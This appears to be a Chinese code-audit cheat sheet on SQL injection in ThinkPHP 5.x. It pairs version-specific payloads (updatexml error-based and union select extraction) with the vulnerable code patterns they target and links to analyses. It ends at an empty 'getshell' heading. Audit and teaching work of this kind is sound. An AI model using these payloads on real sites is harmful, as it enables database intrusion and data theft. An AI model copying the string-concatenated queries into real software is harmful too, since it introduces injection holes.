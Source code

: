 ```php
# 摘自吐司https://www.t00ls.com/viewthread.php?tid=65613
# 5.0.5左右的低版本
id=input("id");
data=db("users")->where("id",$id)->find();
```

```php
# 版本：5.0.13<=ThinkPHP<=5.0.15、 5.1.0<=ThinkPHP<=5.1.5
payload：/public/index.php/index/index？username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
# 代码：
$username = request()->get('username/a');
db('users')->insert(['username' => $username]);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(一).md
```

```php
# 版本：ThinkPHP=5.0.10
payload：/public/index.php/index/index?username[0]=not like&username[1][0]=&username[1][1]=&username[2]=) union select 1,user()--+
# 代码：
$username = request()->get('username/a');
$result = db('users')->where(['username' => $username])->select();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(二).md
```

```php
# 版本：ThinkPHP=5.1.22
payload：/public/index.php/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1
# 代码：
$orderby = request()->get('orderby');
$result = db('users')->where(['username' => 'mochazz'])->order($orderby)->find();
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(三).md
```

```php
# 不同版本 payload 需稍作调整：
5.0.0~5.0.21 、 5.1.3～5.1.10 ： id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
5.1.11～5.1.25 ： id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
# 代码：
$options = request()->get('options');
$result = db('users')->max($options);
# 分析：https://github.com/lu2ker/PHP-Code/blob/main/ThinkPHP5之SQLI审计分析(四).md
```

```php
# 注意有没有直接拼接
	$id=$this->request->param('id'); # 这里是直接用request->param，默认也没有过滤器。
	$result = Db::table('users')->where("id=". $id)->find(); # 没有以数组形式传入where导致注入，
   或者如：
   	$result = Db::table('users')->where("id = {$id}")->find(); 都是直接拼接没有以数组形式传入where导致注入。
```

### getshell类

